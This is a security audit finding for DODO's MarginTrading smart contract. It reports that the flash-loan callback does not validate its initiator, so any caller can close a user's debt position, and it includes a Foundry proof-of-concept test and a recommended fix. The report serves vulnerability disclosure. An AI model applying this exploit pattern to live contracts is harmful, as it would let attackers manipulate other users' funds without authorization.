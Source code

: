 Juntao

high

# Attacker can close debt position without authorization

## Summary

Attacker can close debt position in MarginTrading without authorization, due to lacking of validation of _initiator.

## Vulnerability Detail

In MarginTrading.sol, [**executeFlashLoans()**](https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L89-L108) method is defined for user to execute a flash loan, and modifier [onlyFlashLoan](https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L43-L50) is used to ensure that only authorized caller can execute this function:
```solidity
    modifier onlyFlashLoan() {
        require(
            _USER == msg.sender || owner() == msg.sender
                || IMarginTradingFactory(owner()).isAllowedProxy(address(this), msg.sender),
            "caller is unauthorized"
        );
        _;
    }
```
This function calls [__flashloan()__](https://github.com/aave/protocol-v2/blob/ce53c4a8c8620125063168620eba0a8a92854eb8/contracts/protocol/lendingpool/LendingPool.sol#L483-L564)  from AAVE v2 LendingPool to execute a flash loan:
```solidity
        lendingPool.flashLoan(receiverAddress, assets, amounts, modes, onBehalfOf, params, Types.REFERRAL_CODE);
```
LendingPool will then call the callback function [__executeOperation()__](https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L121-L166) on MarginTrading:
```solidity
    require(
      vars.receiver.executeOperation(assets, amounts, premiums, msg.sender, params),
      Errors.LP_INVALID_FLASH_LOAN_EXECUTOR_RETURN
    );
```
It could be seen that there is no validation for if [_initiator](https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L125) is trusted, so attacker can call __flashloan()__ in AAVE LendingPool with [receiverAddress](https://github.com/aave/protocol-v2/blob/ce53c4a8c8620125063168620eba0a8a92854eb8/contracts/protocol/lendingpool/LendingPool.sol#LL484C13-L484C28) being MarginTrading, then [__executeOperation()__](https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L121-L166) will be called on behalf of MarginTrading.

## Impact

It's unlikely that attacker can open debt position on behalf of MarginTrading due to insufficient [_borrowAllowances](https://github.com/aave/protocol-v2/blob/ce53c4a8c8620125063168620eba0a8a92854eb8/contracts/protocol/tokenization/base/DebtTokenBase.sol#L23), but attacker can close positions without authorization.

Please see below Test Codes:

1. Modify [MockLendingPoolV2.sol](https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/mock/MockLendingPoolV2.sol#L129):
```solidity
IFlashLoanReceiver(receiverAddress).executeOperation(assets, amounts, _premiums, msg.sender, params);
```
2. Run test
```solidity
function testAudit() public {
        address _marginTrading = openMarginTradingDAIV2(user1, address(dai), address(weth), 10000 ether, 10 ether);

        //-------------------------- close -----------------------------------//

        uint256 borrowAmt = 500 ether;
        bytes memory swapParams = getSwapCalldata(address(dai), address(weth), borrowAmt);
        uint256 swapOutAmt = getRouterToAmount(address(dai), address(weth), borrowAmt);
        bytes memory executeParams;
        {
            address[] memory _withdrawAssets = new address[](1);
            _withdrawAssets[0] = address(dai);
            uint256[] memory _withdrawAmounts = new uint256[](1);
            _withdrawAmounts[0] = (borrowAmt * 10009) / 10000;
            uint256[] memory _rateMode = new uint256[](1);
            _rateMode[0] = 0;
            address[] memory _debtTokens = new address[](1);
            _debtTokens[0] = address(wethDebtToken);
            address[] memory _swapApproveToken = new address[](1);
            _swapApproveToken[0] = address(dai);
            address[] memory _tradeAssets = new address[](1);
            _tradeAssets[0] = address(weth);
            executeParams = encodeExecuteParams(
                0,
                address(router),
                address(dodoApprove),
                _swapApproveToken,
                swapParams,
                _tradeAssets,
                _withdrawAssets,
                _withdrawAmounts,
                _rateMode,
                _debtTokens
            );
        }
        address[] memory _assets = new address[](1);
        uint256[] memory _amounts = new uint256[](1);
        uint256[] memory _modes = new uint256[](1);
        _assets[0] = address(dai);
        _amounts[0] = borrowAmt;
        _modes[0] = 0;
        uint256 beforeDebtBalance = wethDebtToken.balanceOf(_marginTrading);

        // Attacker closes position without authorization
        address attacker = address(1);
        vm.prank(attacker);
        lendingPoolV2.flashLoan(address(_marginTrading), _assets, _amounts, _modes, address(_marginTrading), executeParams, uint16(0));

        sinkUserTokenBalanceV2(_marginTrading);
        assertEq(wethDebtToken.balanceOf(_marginTrading), beforeDebtBalance - swapOutAmt);
    }
```

## Code Snippet
https://github.com/aave/protocol-v2/blob/ce53c4a8c8620125063168620eba0a8a92854eb8/contracts/protocol/lendingpool/LendingPool.sol#L483-L564

## Tool used

Manual Review

## Recommendation
Please consider to verify that the initiator is MarginTrading in  [__executeOperation()__](https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L121-L166):
```solidity
        require(
            _initiator == address(this),
            "Untrusted loan initiator"
        );
```